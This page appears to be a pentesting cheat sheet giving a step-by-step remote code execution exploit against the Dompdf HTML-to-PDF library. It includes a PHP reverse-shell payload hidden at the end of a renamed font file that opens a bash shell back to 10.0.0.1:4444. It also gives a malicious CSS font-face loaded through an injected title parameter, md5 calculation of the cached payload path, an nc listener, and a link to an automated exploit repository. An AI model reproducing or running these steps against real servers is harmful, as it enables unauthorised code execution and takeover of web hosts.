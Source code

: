```yaml
---
title: Dompdf RCE
description: Dompdf is an HTML to PDF converter for PHP. It may be vulnerable to remote code execution or SSRF.
tags:
  - Web
refs:
    - https://github.com/dompdf/dompdf
    - https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf
date: 2023-09-12
draft: false
---
```


## Exploitation

### 1. Create Malicious Font

First off, we need to prepare the malicious **`.ttf`** file.  
Here, we find the **`.ttf`** file in our local system and copy it to the current directory and change the extention **`ttf`** to **`php`** because we want to execute PHP script.

```bash
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
```

Then add the PHP payload at the end of the file.

```php
...
<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
```

### 2. Create Malicious CSS

Next we create a malicious CSS that load the above **“evil.php”**.

```css
@font-face {
  font-family: 'evil';
  src: url('http://10.0.0.1:8000/evil.php');
  font-weight: 'normal';
  font-style: 'normal';
}
```

### 3. Host PHP & CSS

Now we have the two files in current working directory.

```bash
ls

evil.css evil.php
```

Start web server to host them.

```bash
python3 -m http.server 8000
```

### 4. Send Request

In target website, send request to upload the HTML as below.

```bash
https://example.com/?pdf&title=<link rel=stylesheet href='http://10.0.0.1:8000/evil.css'>
```

Our “evil.php” is uploaded to **`/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php`**.  
For example, **`/dompdf/lib/fonts/evil_normal_2cddaeb743b6aeb5638ac0ac93c4c9f6.php`**.

To get the md5 hash, we can calculate it by the following command.

```bash
echo -n http://10.0.0.1:8000/evil.php | md5sum

2cddaeb743b6aeb5638ac0ac93c4c9f6
```

Also we can use Python hashlib module.

```bash
python3

>>> import hashlib
>>> hashlib.md5("http://10.0.0.1:8000/evil.php".encode("UTF-8")).hexdigest()
>>> 2cddaeb743b6aeb5638ac0ac93c4c9f6
```

### 5. Execute Malicious PHP via Cached File

Finally we get the cached file path as above so we can get the cached PHP file that executes malicious code.  
For reverse shell, we need to start a listener in local.

```bash
nc -lvnp 4444
```

Now access to the cached PHP file.

```bash
curl https://example.com/dompdf/lib/fonts/evil_normal_2cddaeb743b6aeb5638ac0ac93c4c9f6.php
```

We get a shell in local terminal.

<br />

## Exploitation (Automatically)

Also we can exploit with [the repository](https://github.com/positive-security/dompdf-rce).

```bash
git clone https://github.com/positive-security/dompdf-rce.git
cd dompdf-rce/exploit
```

Modify CSS and PHP depending on your situation. Please see the previous **"Exploitation"** section for the details of each file.

```bash
php -S 0.0.0.0:9001
```

Then send request.

```bash
https://example.com/?pdf&title=<link rel=stylesheet href='http://10.0.0.1:9001/exploit.css'>
```
